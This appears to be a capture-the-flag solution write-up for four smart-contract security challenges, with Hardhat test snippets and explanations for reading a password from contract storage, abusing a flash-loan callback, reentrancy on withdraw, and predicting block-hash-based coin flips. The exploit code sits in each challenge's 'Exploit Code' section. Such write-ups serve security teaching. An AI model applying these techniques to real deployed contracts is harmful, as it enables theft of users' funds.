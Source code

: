 # Smart Contract Security Challenge
---
## Challenge 1

### No Privacy

To exploit the AlicesLock contract, you can follow these steps in the no-privacy.js test file:

#### *Steps to Exploit*

- Access Contract Storage: The password is stored in the contract's storage, so you can read it directly.

- Unlock the Contract: Use the unlock function with the password obtained from storage.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
it("Exploit", async function () {
    // Get the storage slot for the password
    const passwordSlot = await ethers.provider.getStorageAt(this.lock.address, 1);

    // Unlock the contract using the password from storage
    await this.lock.connect(bob).unlock(passwordSlot);
});
```

#### *Explanation*
- `ethers.provider.getStorageAt(this.lock.address, 1)`: This reads the password from the second storage slot (index 1) of the AlicesLock contract.

- `this.lock.connect(bob).unlock(passwordSlot)`: Bob uses the retrieved password to call the unlock function.

---

## Challenge 2

### Do Not Trust

To exploit the  Do Trust Lender pool, you can follow these steps in the do-not-trust.js test file:

#### *Steps to Exploit*

- `DoTrustLender.sol` contract implements a flash loan mechanism that allows borrowers to execute arbitrary functions after borrowing tokens. It inherits from `ReentrancyGuard` to prevent reentrancy attacks on its functions.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const DoNotTrustBobFactory = await ethers.getContractFactory(
      "DoNotTrustBob",
      alice
    );
    this.exploit = await DoNotTrustBobFactory.deploy();
    await this.exploit
      .connect(bob)
      .attack(this.pool.address, this.token.address);
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the `CalyptusToken` and `DoTrustLender` contracts. Transfers 1 million CPT tokens to the lending pool.

- **Exploit**: Bob deploys a contract `DoNotTrustBob` that exploits the `flashLoan` function of `DoTrustLender`. The attack involves borrowing all tokens from the pool and executing a function that transfers them to Bob's account.

---

## Challenge 3

### Re-enter

To exploit the  simple lending pool that allows its users to deposit ETH, you can follow these steps in the reenter.js test file:

#### *Steps to Exploit*

- The smart contract `Reenter.sol` allows users to deposit ETH, withdraw ETH, and execute flash loans. It has a reentrancy vulnerability in the `withdraw` function.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    const bobFactory = await ethers.getContractFactory("ReentersBob", alice);
    this.bobsContract = await bobFactory.deploy(this.pool.address);
    this.bobsContract.connect(bob).attack();
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the ReenterPool contract with an initial balance of 1000 ETH.

- **Exploit**: Bob deploys a contract ReentersBob that utilizes a reentrancy attack via the withdraw function of ReenterPool. The attack allows Bob's contract to repeatedly withdraw ETH from Alice's pool before updating the balance.

---

## Challenge 4

### Head or Tail

The HeadOrTail contract has a vulnerability where the randomness is derived from global variables, making it predictable. you can follow these steps in the rehead-or-tails.js test file:

#### *Steps to Exploit*

- The `HeadOrTail.sol` contract implements a coin flip game where the outcome is determined based on the previous block's hash. This method of generating randomness is predictable and can be exploited.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const Attacker = await ethers.getContractFactory("BobsGuess", bob);

    this.attacker = await Attacker.deploy();
    for (let i = 0; i < 5; i++) {
      this.attacker.connect(bob).cheat(this.headOrTale.address);
    }
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the HeadOrTail contract. Ensures the initial wins count is 0.

- **Exploit**: Bob deploys a contract that predicts the outcome of the coin flip by calculating the block hash and determining the result before calling the flip function.


